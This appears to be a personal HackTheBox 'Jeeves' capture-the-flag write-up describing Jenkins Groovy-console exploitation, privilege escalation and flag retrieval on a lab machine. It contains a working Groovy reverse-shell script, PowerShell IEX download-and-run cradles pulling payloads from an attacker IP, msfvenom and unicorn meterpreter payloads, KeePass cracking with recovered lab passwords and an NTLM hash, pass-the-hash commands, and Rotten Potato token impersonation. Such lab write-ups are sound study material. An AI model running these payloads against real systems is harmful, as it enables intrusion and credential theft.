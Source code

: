 # HackTheBox - Jeeves

### What I Learned

1. Check usr/bin AND usr/sbin for software
2. In windows, you can make files into folders. Check with dir /r
3. Check all ports with gobuster and/or feroxbuster if they are running multiple programs
4. Can use multiple programs to perform a pass-the-hash attack  
   a. pth-winexe  
   b. impacket-psexec  
   c. Crackmapexec?
5. Always check initial application for all types of compromise vectors

<details>
  <summary><strong>Writeup Summary</strong></summary>
  Scan the machine and find a jenkins server running on port 50000. Find a script console where groovy scripts can be executed. Search online and find groovy scripts that might allow you to escalate privileges. Upload a meterpreter shell because the other shell keeps dropping. Once that shell is running, There are 2 ways to get root shell.
  
   1. Enumerate and find a KeePass database file, download it, and get admin credentials. Use it to SMB into the machine as admin and get the flag
   2. Downlad the Unicorn shell command and upload it to the target machine. Run the server and client in Kali and the target, respectively. Catch the shell and check for impersonation tokens. Upload rotten potato and impersonate the administrator user's token and get a root shell.
</details>
   <br>

## Writeup

Scan with NMAP

- `nmap --open -p- 10.129.194.230`
- Target scan the open ports
- `nmap -sV -sC -sT -vv --script=vuln -p 80,135,445,50000 -oA nmap/targeted 10.129.194.230`

Scan with Gobuster and Feroxbuster

- `feroxbuster -u http://10.129.194.230 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x xml`
- Scan port 50000 because there's a server running on that port
- `gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o jetty.txt`
  Find a jenkins server on :50000/askjeeves

Go to the jenkins server

- Find a script console where you can execute groovy scripts
  Try this script from github

![alt text](image-1.png)

```
String host="10.10.14.209";
int port=8686;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Try another script to get a powershell
https://coldfusionx.github.io/posts/Groovy_RCE/

```
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

Create a meterpreter payload because the shell keeps dropping

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.209 LPORT=8686 -f psh -o shell.ps1`

In the file where the shell starts C:\Users\Administrator\.jenkins
Go to secrets file and download all the interesting files

Find a KeePass database file in khosuke's Documents folder

![alt text](image-2.png)

- `Get-ChildItem -Recurse -Filter \*.kdbx -ErrorAction SilentlyContinue`

Copy it over to the kali machine using smb

Convert the database file into a database hash

- `keepass2john CEH.kdbx`
- `hashcat -m 13400 dbkey.hash /usr/share/wordlists/rockyou.txt`
  Get the DB password
  `moonshine1`

Get into the database using keepass2

```
bob : lCEUnYPjNfIuPZSzOySA
administrator:S1TjAtJHKsugh9oC4VZl
Michael321 : 12345
admin : F7WhTrSFDKB6sxHU1cUn
NTLM HASH : aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Try using nxc winrm, ssh, smb with the different user combinations

- `nxc smb/winrm/ssh 10.129.194.230 -u 'administrator' -p 'S1TjAtJHKsugh9oC4VZl'`
  <b>Didn't work</b>

Try passing the hash to get in

- `pth-winexe -U jenkins/administrator //10.10.14.209 cmd.exe`
  <b>Doesn't work</b>

- `impacket-psexec jeeves/administrator@10.129.228.112 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

- Could try
  - `crackmapexec smb TARGET_IP -u Administrator -H NTHASH --exec-method wmiexec`

## First way to get a shell as admin

- Go to Admin Desktop, but don't find flag
- List Alternate data streams
  - `dir /r`

![alt text](image.png)

    There is an alternate data stream in the hm.txt file
    View it from the cmd shell using

- Powershell (Get-Content hm.txt -Stream root.txt)

## Second way to get Shell

Download the unicorn shell command

- https://www.kali.org/tools/unicorn-magic/
- Create the python file and meterpreter.rc file
  - `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443`
- Start a postgresql server
  - `service postgresql start/stop`

Run the unicorn.rc file in meterpreter

- `Msfconsole -r unicorn.rc`

Get the reverse shell file into the target machine using

- `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/UnicornFile.txt')`
- Meterpreter listener will automatically catch upload

In meterpreter shell

- Allows you to check for impersonation tokens
- load incognito

Download Rotten Potato

Copy rotten potato over to the target machine. Use meterpreter shell

- `MSFConsole> cp /path/to/rottenpotato.exe .`
- Wait a few seconds
- `-c -> run in new channel | -H -> hides window of the executed process | -f -> file_to_execute`
- `execute -cH -f rottenpotato.exe`
- Impersonate the admin user
- `impersonate_token "BUILTIN\\Administrators"`

In MSFconsole

- shell
- Then check the admin desktop
